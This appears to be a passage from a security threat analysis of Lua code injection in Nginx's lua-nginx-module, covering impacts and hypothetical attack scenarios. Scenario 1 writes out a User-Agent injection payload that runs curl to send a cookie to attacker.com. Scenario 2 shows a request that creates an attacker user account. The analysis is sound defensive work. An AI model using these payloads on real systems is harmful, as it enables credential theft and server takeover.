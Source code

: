 **3. Deeper Dive into Impact:**

The "Critical" risk severity is justified by the far-reaching consequences of a successful Lua Code Injection attack:

* **Complete Server Takeover:** The attacker gains the ability to execute arbitrary commands as the Nginx worker process user. This allows them to install backdoors, create new user accounts, and control the entire server.
* **Data Breaches:** Access to sensitive data stored on the server or accessible through the server (e.g., database credentials, user data, API keys).
* **Lateral Movement:** The compromised Nginx server can be used as a stepping stone to attack other internal systems within the network.
* **Denial of Service (DoS):**  The attacker can execute commands to crash the Nginx process, consume resources, or disrupt the application's availability.
* **Data Manipulation:**  The attacker can modify data stored on the server or manipulate data being processed by the application.
* **Reputation Damage:** A successful attack can severely damage the organization's reputation and erode customer trust.
* **Compliance Violations:** Data breaches can lead to significant fines and penalties under various data privacy regulations.
* **Supply Chain Attacks:** If the compromised application interacts with other systems or services, the attacker could potentially use it to compromise those systems as well.

**4. Technical Considerations:**

* **Execution Context:** The injected Lua code executes within the context of the Nginx worker process, inheriting its permissions and access rights. This is a privileged context compared to typical web application vulnerabilities.
* **`ngx` API Access:** The `ngx` API provided by `lua-nginx-module` grants extensive control over the Nginx request/response lifecycle, allowing attackers to manipulate requests, responses, and even the internal state of the server.
* **Lua's Power and Flexibility:** While beneficial for development, Lua's dynamic nature and ability to execute arbitrary code make it a potent tool in the hands of an attacker.
* **Bypassing Traditional Web Security Measures:** Standard web application firewalls (WAFs) might not be effective against sophisticated Lua Code Injection attacks if they primarily focus on common web attack patterns and don't deeply inspect the logic within Lua blocks.

**5. Real-World (Hypothetical) Attack Scenarios:**

* **Scenario 1: Data Exfiltration via Header Injection:**
    * An attacker crafts a request with a malicious `User-Agent` header: `User-Agent:  '; os.execute("curl -X POST -d 'data='..ngx.var.cookie_sensitive_data..' http://attacker.com/log"); --'`
    * The `access_by_lua_block` uses `ngx.req.get_headers()["User-Agent"]` without proper sanitization.
    * The injected Lua code executes, extracts the value of the `sensitive_data` cookie, and sends it to the attacker's server.

* **Scenario 2: Remote Code Execution via API Endpoint:**
    * An API endpoint `/admin/run_command` uses `content_by_lua_block` and retrieves a command to execute from a request parameter: `cmd = ngx.req.get_uri_args()["command"]`.
    * An attacker sends a request: `/admin/run_command?command=os.execute('adduser attacker pass')`
    * The unsanitized command is executed, creating a new user on the server.

* **Scenario 3: Upstream Response Exploitation:**
    * The application fetches data from an upstream service and uses it to generate a dynamic response using `content_by_lua_block`.
    * A compromised upstream service returns a JSON payload containing malicious Lua code within a seemingly innocuous field.
    * The Lua code processes this field without sanitization, leading to code execution on the Nginx server.
